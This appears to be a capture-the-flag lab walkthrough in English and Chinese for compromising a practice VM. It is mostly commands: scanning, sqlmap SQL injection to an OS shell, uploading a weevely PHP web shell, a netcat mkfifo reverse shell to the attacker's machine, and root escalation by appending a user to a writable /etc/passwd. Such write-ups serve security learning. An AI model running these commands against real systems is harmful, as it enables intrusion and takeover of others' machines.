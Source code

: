 # host discover
-r means range
`netdiscover -r 192.168.111.0/24`

# port scan
`nmap -p- 192.168.111.130 -A `
# dir scan
`dirb http://192.168.111.130`
`http://192.168.111.130/robots.txt`
`dirb http://192.168.111.130/m3diNf0` 发现info.php 和绝对路径
`dirb http://192.168.111.130/se3reTdir777/ ` 注意不要扫上一级
![image](https://user-images.githubusercontent.com/1063747/180630122-d9afea4b-3062-47b2-88bd-edd2496c62b3.png)

# web root document path
![image](https://user-images.githubusercontent.com/1063747/180630424-6e62ec60-246f-4ca3-af54-730bb069b59c.png)


# SQL inject
![image](https://user-images.githubusercontent.com/1063747/180630178-ad36abec-e781-40ff-bbbf-39527aaa9323.png)

![image](https://user-images.githubusercontent.com/1063747/180630233-273b8115-0d1e-4ef5-b37a-7dd9a6ffab44.png)

`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" --dbs `
`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" -D aiweb1 `

# SQL inject get shell
`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" --os-shell`

![image](https://user-images.githubusercontent.com/1063747/180630495-6ce66948-8ae5-437f-b9e8-7417485d7e64.png)

# weevely oneline torajan
`weevely generate 1 1.php`
the upload 
`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" --file-write /home/kali/1.php --file-dest /home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/1.php`

# Connect
`weevely http://192.168.111.130/se3reTdir777/uploads/1.php 1`

# find root  but failed
found nothing
`find / -user root -perm -4000 -print 2>/dev/null` 
`searchsploit 4.15 `

# kali reverse shell
Running in kali
`nc -lvvp 6666`
running in weevely 反弹shell
`rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.111.128 6666 >/tmp/f &`

# find passwd vuln
```
ls -l /etc/passwd
-rw-r--r-- 1 www-data www-data 1664 Aug 21  2019 /etc/passwd
```
`openssl passwd -1 -salt hacker`
相当于把密码替换掉x 创建新用户
![image](https://user-images.githubusercontent.com/1063747/180631040-4a30ac4c-f7b8-45a3-a082-817335e930d1.png)

`echo 'hacker:$1$hacker$6luIRwdGpBvXdP.GMwcZp/:0:0:root:/root:/usr/bin/zsh' >> /etc/passwd`

# weevely su
这里会失败 weevely 的反弹shell  su 会报错
`:shell_su -user hacker  123456 id`



